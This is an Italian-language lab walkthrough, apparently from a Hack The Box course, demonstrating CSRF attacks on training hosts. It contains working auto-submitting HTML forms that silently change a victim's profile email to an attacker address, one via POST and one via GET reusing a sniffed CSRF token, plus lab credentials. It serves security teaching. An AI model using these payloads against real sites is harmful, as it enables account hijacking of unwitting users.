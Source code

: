 apriao burp suite e catturiamo la post di update del profilo. notiamo subito che non c'e' un token anti-csrf.

creiamo la pagina `notmalicious.html`

```html
<html>
  <body>
    <form id="submitMe" action="http://xss.htb.net/api/update-profile" method="POST">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```

e serviamola con python 

```shell
$ python -m http.server 1337
```

visitiamo la pagina `http://10.10.15.253:1337/notmalicious.html`

e vediamo che i dati del profilo della vittima sono cambiati!
Abbiamo fatto una CSFR, elementare ma che funziona!

# Cross-Site Request Forgery Example GET-based (lab_csfr2)

Navigate to http://csrf.htb.net and log in to the application using the credentials below:

- Email: heavycat106
- Password: rocknrol

modifichiamo e catturiamo con burp il save di conferma (secondo)

vediamo che e' una GET con tutti i parametri nell'url e che c'e' il csfr token

copiamo il token 

andiamo a creare una pagina html `notmalicious_get.html` con il token corretto copiato prima

```html
<html>
  <body>
    <form id="submitMe" action="http://csrf.htb.net/app/save/julie.rogers@example.com" method="GET">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="hidden" name="action" value="save" />
      <input type="hidden" name="csrf" value="<TOKEN_SNIFFED>" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>

```
